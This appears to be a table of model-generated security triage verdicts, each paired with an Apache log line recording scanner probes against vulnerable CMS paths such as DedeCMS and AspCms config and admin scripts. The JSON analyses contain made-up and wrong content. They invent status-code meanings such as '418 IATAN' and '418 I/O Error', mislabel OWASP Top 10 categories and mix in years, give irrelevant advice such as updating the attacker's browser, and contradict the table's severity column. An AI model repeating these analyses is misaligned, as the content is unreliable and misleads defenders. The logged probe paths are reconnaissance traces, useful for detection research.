| Medium | No CVE found | 322 | ```json {"potential_attack_attempt": true, "details": "The request to the /utility/convert/index.php endpoint with parameters 'a=config&source=d7.2_x2.0' originating from a potentially malicious source (125.78.229.99) and a user-agent suggesting Internet Explorer 10, may be a test for vulnerabilities or an attempt to exploit a configuration issue. The 418 IATAN (Implicitly Take Notes About Appropriation) status code suggests a temporary situation or a representation of a method not intended for use by humans.", "severity": "medium", "CVE": [], "recommendation": "Immediately investigate the /utility/convert/index.php script for potential vulnerabilities. Sanitize and validate all user inputs. Monitor the endpoint for suspicious activity. Review the source of the request (125.78.229.99) and the user-agent to determine if it is legitimate. Consider blocking this IP address if it continues to pose a threat.", "owasp": ["A01:2021-Sensitive_Data_Exposure", "A03:2021-Injection", "A07:2021-Cross-Site Scripting"]} ``` | 125.78.229.99 - - [22/Oct/2021:12:27:05 -0700] "POST /utility/convert/index.php?a=config&source=d7.2_x2.0 HTTP/1.1" 418 746 "http://www.secrepo.com/utility/convert/index.php?a=config&source=d7.2_x2.0" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 323 | ```json { "potential_attack_attempt": true, "details": "The request to /utility/convert/data/config.inc.php from IP address 125.78.229.99 indicates a potential attempt to access a configuration file. Accessing configuration files directly is a common vector for attackers seeking sensitive information. The unusual request method (POST) and the fact that it's a PHP config file combined with the user agent, could point to a malicious attempt to extract information.", "severity": "high", "CVE": [], "recommendation": "Immediately restrict access to this URL. Investigate the source IP address (125.78.229.99) and block it if it's suspicious. Harden the web server to prevent unauthorized access to configuration files. Implement a web application firewall (WAF) to mitigate potential attacks. Review the application's code for vulnerabilities and ensure it is properly configured.", "owasp": [ "A01:2021-Sensitive Information Management", "A03:2021-Injection", "A07:2021-Identification and Authentication", "A08:2021-Access Control" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:05 -0700] "POST /utility/convert/data/config.inc.php HTTP/1.1" 418 746 "http://www.secrepo.com/utility/convert/data/config.inc.php" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 325 | ```json {"potential_attack_attempt": true, "details": "The request appears to be a possible attempt to exploit a vulnerability in the `sys_verifies.php` script, potentially due to the URL including a `?action=down` parameter. The HTTP status code 418 (I'm a teapot) is unusual and could indicate a misconfigured server or an attempt to bypass security checks. The user agent 'Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)' is a standard browser, but the URL itself is the primary concern.", "severity": "medium", "CVE": [], "recommendation": "Immediately investigate the `sys_verifies.php` script for vulnerabilities. Sanitize user input, implement strict access controls, and review server logs for suspicious activity. Consider using a Web Application Firewall (WAF) to block malicious requests.", "owasp": ["A01:2021-Sensitive_Data_Exposure", "A03:2021-Injection", "A07:2021-Cross-Site Scripting"]} ``` | 125.78.229.99 - - [22/Oct/2021:12:27:06 -0700] "POST /uploads/dede/sys_verifies.php?action=down HTTP/1.1" 418 746 "http://www.secrepo.com/uploads/dede/sys_verifies.php?action=down" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 326 | ```json { "potential_attack_attempt": true, "details": "The request to /index.php/api/Uploadify/preview resulted in a 404 error. While a 404 itself isn't an attack, it's often leveraged in reconnaissance to identify vulnerable endpoints or to test for misconfigurations. The user agent suggests Internet Explorer 10, which may have vulnerabilities. Further investigation is needed to determine if this is a legitimate misconfiguration or a targeted attack.", "severity": "medium", "CVE": [], "recommendation": "Verify the existence and correct functionality of the /index.php/api/Uploadify/preview endpoint. Review web server logs for suspicious requests originating from the same IP address (125.78.229.99). Ensure the web application is properly configured to handle requests and prevent directory traversal attacks. Update Internet Explorer to the latest version.", "owasp": [ "A01:2017-Sensitive Data Exposure", "A03:2021-Injection", "A06:2017-Broken Access Control" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:06 -0700] "POST /index.php/api/Uploadify/preview HTTP/1.1" 404 305 "http://www.secrepo.com/index.php/api/Uploadify/preview" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 328 | ```json { "potential_attack_attempt": true, "details": "The request to /fdgq.php from IP address 125.78.229.99, originating from a potentially outdated browser (MSIE 10.0), and resulting in a 418 I/O Error status code warrants investigation. The request may be attempting to exploit a vulnerability or conduct a denial-of-service attack. The URL 'http://www.secrepo.com/fdgq.php' also points to a potentially vulnerable web application.", "severity": "high", "CVE": [ "Unknown - Further investigation required to identify specific vulnerabilities." ], "recommendation": "Immediately investigate the /fdgq.php script for potential vulnerabilities. Implement rate limiting to mitigate potential denial-of-service attacks. Regularly update the web server and browser versions to patch known vulnerabilities. Conduct thorough input validation and sanitization. Monitor network traffic for suspicious activity.", "owasp": [ "A01:2021 - Sensitive Data Exposure", "A03:2021 - Injection", "A07:2021 - Insecure Communication", "A08:2021 - Flaws in Logic" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:07 -0700] "POST /fdgq.php HTTP/1.1" 418 746 "http://www.secrepo.com/fdgq.php" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 330 | ```json {"potential_attack_attempt": true, "details": "The request to /ppeeu.php from IP address 125.78.229.99 indicates a potential vulnerability. The HTTP status code 418 (I'm a teapot) is often used to simulate error responses, which could be exploited. The user agent 'Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)' suggests an older browser might be susceptible to known vulnerabilities. The URL itself, 'http://www.secrepo.com/ppeeu.php', should be investigated for potential malicious content or vulnerabilities.", "severity": "medium", "CVE": [], "recommendation": "Review the /ppeeu.php script for potential vulnerabilities. Implement input validation and output encoding. Ensure the web server is patched with the latest security updates. Monitor for suspicious activity and analyze web server logs.", "owasp": ["A01:2021-Sensitive Data Exposure", "A03:2021-Injection", "A07:2021-Cross-Site Scripting", "A08:2021-Broken Access Control"]} ``` | 125.78.229.99 - - [22/Oct/2021:12:27:07 -0700] "POST /ppeeu.php HTTP/1.1" 418 746 "http://www.secrepo.com/ppeeu.php" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 332 | ```json { "potential_attack_attempt": true, "details": "The request to /ysyqq.php from IP address 125.78.229.99 appears to be a potential attack due to the unusual URL and the HTTP status code 418 (I'm a teapot), often used in simulated attack scenarios. The user agent also suggests an older browser.", "severity": "medium", "CVE": [], "recommendation": "Investigate the source of this request. Review the application code for /ysyqq.php for vulnerabilities. Ensure proper input validation and sanitization. Consider blocking requests from this IP address until further investigation.", "owasp": ["A01:2021-Broken Authentication", "A07:2021-Insecure Deserialization"] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:08 -0700] "POST /ysyqq.php HTTP/1.1" 418 746 "http://www.secrepo.com/ysyqq.php" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 334 | ```json { "potential_attack_attempt": true, "details": "The request to /txual.php originating from IP address 125.78.229.99 appears to be a potential vulnerability. The HTTP status code 418 (I'm a teapot) is unusual and warrants investigation. The user agent 'Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)' suggests a potentially outdated browser, which could be exploited. The request itself may be attempting to exploit a flaw in the script.", "severity": "medium", "CVE": [], "recommendation": "Investigate the /txual.php script for vulnerabilities. Implement robust input validation and sanitization. Review network traffic for suspicious activity. Consider patching or upgrading the affected system and browser.", "owasp": [ "A01:2017-Injection", "A06:2013-Broken Access Control", "A07:2013-Cross-Site Scripting" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:08 -0700] "POST /txual.php HTTP/1.1" 418 746 "http://www.secrepo.com/txual.php" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 337 | ```json { "potential_attack_attempt": true, "details": "The request to /admin_aspcms/_system/AspCms_SiteSetting.asp resulted in a 404 error. While not directly an attack, this could indicate a misconfiguration, a vulnerability being exploited, or an attempt to access a sensitive administrative page. The unusual URL and user agent suggest potential malicious activity.", "severity": "medium", "CVE": [], "recommendation": "Investigate the root cause of the 404 error. Review the AspCms application for potential vulnerabilities related to administrative access. Ensure the application directory permissions are properly configured to prevent unauthorized access. Monitor for similar requests.", "owasp": [ "A01:2021 - Sensitive Data Exposure", "A03:2021 - Injection", "A07:2021 - Identification and Authentication", "A08:2021 - Access Control" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:10 -0700] "POST /admin_aspcms/_system/AspCms_SiteSetting.asp HTTP/1.1" 404 328 "http://www.secrepo.com/admin_aspcms/_system/AspCms_SiteSetting.asp" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 338 | ```json { "potential_attack_attempt": true, "details": "The request to ecms.php appears to be a 404 error, potentially indicating a misconfigured URL or a malicious attempt to probe for vulnerabilities. The user agent suggests a potentially outdated browser. The IP address could be associated with automated scanning or a compromised host.", "severity": "medium", "CVE": [], "recommendation": "Verify the URL and application configuration. Implement robust input validation and sanitization on the server-side to prevent potential code execution or other vulnerabilities. Monitor the IP address for suspicious activity.", "owasp": [ "A01:2017-Sensitive Data Exposure", "A06:2017-Security Logging", "A07:2017-Identification and Authentication", "A08:2017-Access Control" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:10 -0700] "POST /e/DoInfo/ecms.php HTTP/1.1" 404 305 "http://www.secrepo.com/e/DoInfo/ecms.php" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 481 | ```json { "potential_attack_attempt": true, "details": "The request to ‘AspCms_CollectFun.asp’ from IP address 27.158.48.59 with a POST request to a potentially vulnerable script, combined with a known outdated browser (Mozilla/5.0+(compatible#+Baispider/2.0#++http://www.bai.com/search/spider.html)) suggests a possible reconnaissance or exploit attempt. The 408 status code indicates a timeout, which could be a sign of a denial-of-service (DoS) attack or a problem with the script itself.", "severity": "medium", "CVE": [], "recommendation": "Investigate the ‘AspCms_CollectFun.asp’ script for vulnerabilities. Implement input validation and sanitization to prevent malicious scripts from being executed. Monitor the IP address and request patterns for suspicious activity. Consider a web application firewall (WAF) to mitigate potential attacks.", "owasp": [ "A01:2021-Sensitive-Data-Exposure", "A03:2021-Injection", "A07:2021-Identification-and-Authentication", "A08:2021-Access-Control", "A09:2021-Broken-Access-Control" ] } ``` | 27.158.48.59 - - [22/Oct/2021:16:49:29 -0700] "POST /plug/collect/AspCms_CollectFun.asp HTTP/1.1" 408 391 "http://misc.yahoo.com.cn/" "Mozilla/5.0+(compatible#+Baispider/2.0#++http://www.bai.com/search/spider.html)" |